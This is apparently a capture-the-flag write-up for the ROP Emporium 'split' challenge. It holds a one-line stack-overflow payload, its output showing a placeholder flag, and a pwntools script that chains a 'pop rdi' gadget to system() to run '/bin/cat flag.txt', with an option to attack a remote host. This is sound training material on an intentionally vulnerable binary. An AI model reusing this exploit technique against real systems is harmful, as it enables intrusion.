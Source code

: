 `python3 -c 'import sys;sys.stdout.buffer.write(b"A"*40 + b"\xc3\x07\x40\x00\x00\x00\x00\x00" + b"\x60\x10\x60\x00\x00\x00\x00\x00" + b"\x4b\x07\x40\x00\x00\x00\x00\x00")'`
```
$ python3 -c 'import sys;sys.stdout.buffer.write(b"A"*40 + b"\xc3\x07\x40\x00\x00\x00\x00\x00" + b"\x60\x10\x60\x00\x00\x00\x00\x00" + b"\x4b\x07\x40\x00\x00\x00\x00\x00")'

split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
```

#### The Pwntools Exploit
```
#!/usr/bin/env python3

from pwn import *

# Set the binary context to the local binary
context.binary = binary = ELF("./split3", checksec=False)
context.log_level = "CRITICAL"

# Get the LIBC used for the binary
libc = binary.libc

gdb_script = """
continue
"""

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(args.HOST or exit("[!] Provide a Remote IP."), int(args.PORT or exit("[!] Provide a Remote Port.")))

    elif args.GDB:
        return gdb.debug([binary.path] + argv, gdbscript=gdb_script, *a, **kw)

    else:
        return process([binary.path] + argv, *a, **kw)

# Exploitation code
# Define the offset as 40
offset = 40
# Build the 40 byte buffer
buffer = b"A"*offset

# Pack the address of the system() function into a 64-bit Little-Endian address
system = p64(0x000000000040074b)
# Pack the address of the "pop rdi; ret" gadget into a 64-bit Little-Endian address
pop_rdi = p64(0x00000000004007c3)
# Pack the address of the "/bin/cat flag.txt" string into a 64-bit Little-Endian address
cat_flag = p64(0x601060)

# Build the payload. The buffer + the "pop rdi; ret" gadget + the "/bin/cat flag.txt" string + the system() function address
payload = buffer + pop_rdi + cat_flag + system

# Start connection (LOCAL, REMOTE, or GDB)
p = start()

# Send the payload after the ">" input prompt
p.sendlineafter(b"> ", payload)
```